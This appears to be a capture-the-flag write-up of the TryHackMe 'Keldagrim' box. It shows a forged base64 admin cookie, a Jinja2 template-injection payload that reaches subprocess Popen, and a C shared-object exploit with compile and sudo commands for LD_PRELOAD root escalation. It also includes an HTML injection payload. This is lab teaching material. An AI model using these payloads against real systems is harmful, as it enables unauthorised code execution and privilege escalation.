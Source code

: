```yaml
---
layout: post
title:  Keldagrim Writeup
description: A realistic box. Many things were learned during this challenge, and I highly recommend reading this writeup.
date:   2021-02-05 
image:  '/images/0xd4y-logo-gray.png'
tags:   [Python, SSTI]
---
```


**This report can be read both on this site, and as its <a href = "https://0xd4y.github.io/reports/Keldagrim%20Writeup.pdf">original report form</a>. It is highly recommended that you read the original report form instead because it is better formatted.**

This box was rated as a medium difficulty by TryHackMe. This was a great box in the sense that the attacker did not have to get lucky by brute forcing a directory or password. Instead, the vulnerability came from connecting dots and researching. That being said, let’s get right into the box!

Enumerating the ports, we find that only ports 22 and 80 are open:

![](/reports/Keldagrim/image2.png)

Looking at the results we don’t find anything out of the ordinary, except for the httponly flag not being set. Let’s just check out the website and see what we find.

![](/reports/Keldagrim/image12.png)

xt file. We are met with a very simple page with a couple of directories. On the “Our Team” tab we find two possible users: Jed and Jad. This may or may not be useful later on, so I made sure to add this to my notes.txt file. Looking around we click on the “Buy Gold” tab and we see an interesting Admin option:

![](/reports/Keldagrim/image1.png)

Unfortunately the admin option is grayed out. I couldn’t find anything more useful in this so let’s use our trusty tool: Burpsuite! I captured a request to the /team directory and saw a couple of very strange things:

![](/reports/Keldagrim/image10.png)

First of all, there is a session cookie which is encoded in base64. Decoding this, we see that Z3Vlc3Q= is the base64 encode of guest. When base64 encoding the string ‘admin’ (YWRtaW4=) and pasting that into the session cookie, we see that the content length changes! Let’s use the developer tools, paste this base64 string in the session value, and reload the page.

![](/reports/Keldagrim/image5.png)

And we are now the admin! Unfortunately, there is not much that has changed except for the strange ‘sales’ cookie which is also base64 encoded. Decoding this, we see that it corresponds to the $2,165 we see on the screen. At this point, I was stuck for a long time, but at the back of my mind was this strange server in one of my requests to the page with all the packages to be bought:

![](/reports/Keldagrim/image13.png)

Server: Werkzeug/1.0.1 Python/3.6.9

This is what comes to mind. Seeing Werkzeug and python brings to mind that maybe Flask has something to do with this. After a lot of research, it seemed that this box might be vulnerable to SSTI (Server Side Template Injection). I came across a great article on this topic, which explained very well on how this vulnerability is exploited: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://www.google.com/url?q=https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee&sa=D&source=editors&ust=1653954534767158&usg=AOvVaw3cO1ZM3W9Fe-ZTh2QettjH)

TL;DR you can get code execution through abusing flask. Proof of concept:

![](/reports/Keldagrim/image9.png)

![](/reports/Keldagrim/image4.png)

As we can see, the server evaluated 7\*7 which is 49. You must find the subprocess Popen under the <object> class with which you will get code execution. After viewing all the sub processes within the object class, I grepped the Popen subprocess to find at which index it is located. After discovering that it was at the 402nd location, the final payload looks like the following:

{{''.\_\_class\_\_.\_\_mro\_\_\[1\].\_\_subclasses\_\_()\[401\]('ls',shell=True,stdout=-1).communicate()}}

Now that we have code execution, let’s get a reverse shell!!

![](/reports/Keldagrim/image3.png)

There is user.txt. One of the first things I run when getting a reverse shell is sudo -l:

![](/reports/Keldagrim/image8.png)

Unfortunately, getting root won’t be as easy as just looking up /bin/ps on gtfobins. Fortunately, however getting root is easy nonetheless! The env\_keep+=LD\_PRELOAD is particularly strange. Looking this up, I came across an article that explained how to exploit this ([https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/](https://www.google.com/url?q=https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/&sa=D&source=editors&ust=1653954534768244&usg=AOvVaw0snkjC96zCdV2nbDP5tsbG))

Essentially, we want to create a shared object that will be run as root as part of the LD\_PRELOAD environment. As a result, the actual function for /bin/ps will be overridden by our own binary. Using this fact, we can create a shell as root! We must compile the code below as a shared object and add it to the LD\_PRELOAD environment.

1

2

3

4

5

6

7

8

9

#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void \_init() {

unsetenv("LD\_PRELOAD");

setgid(0);

setuid(0);

system("/bin/sh");

}

I saved the code below as exploit.c and compiled it with the following commands:

cd /tmp

gcc -fPIC -shared -o shell.so exploit.c -nostartfiles

sudo LD\_PRELOAD=/tmp/shell.so ps

![](/reports/Keldagrim/image6.png)

BONUS:

I ran nikto on this website, and it found an interesting vulnerability:

![](/reports/Keldagrim/image7.png)

According to nikto, the site is vulnerability to HTML injection so let’s try it out using the payload they suggest:

/ts2s1NMDd1VJtKSBRcn82Yzs6CMY1u42RDsdfO6lT8XQ4d2wnexQKAEmtizMPNHTnyEq2tGZFhuZFztIsW0KFFesXGzcEkCmWUYaq4CFDSQLzsu2gpT6eeKTFGHIDulc5a6layCW57JZyywP1ULTbIaz1LScDK6V74lsCTy8jH6z49h4spfFApiSynzRB18unriHDFcu1O9DivFGpMyUrxCsBPOLZQ0<font%20size=50>

![](/reports/Keldagrim/image11.png)

As can be seen, the font size has increased to a ridiculous size. This confirms the HTMLvulnerability. This vulnerability is not critical in the context of this box, as no other users will be using the exact same instance. However, in the case that this website were to be visited by many other users, the attacker can possibly steal their credentials by using a phishing attack. They can create a page for the victim to enter their username and password, and this information will be sent back to the attacker.  

This was a great box, and I thank the creator @optional for creating such a fun challenge! Thanks for reading this writeup, I hope you learned as much from this box as I did. I wish you a wonderful day (or night)!
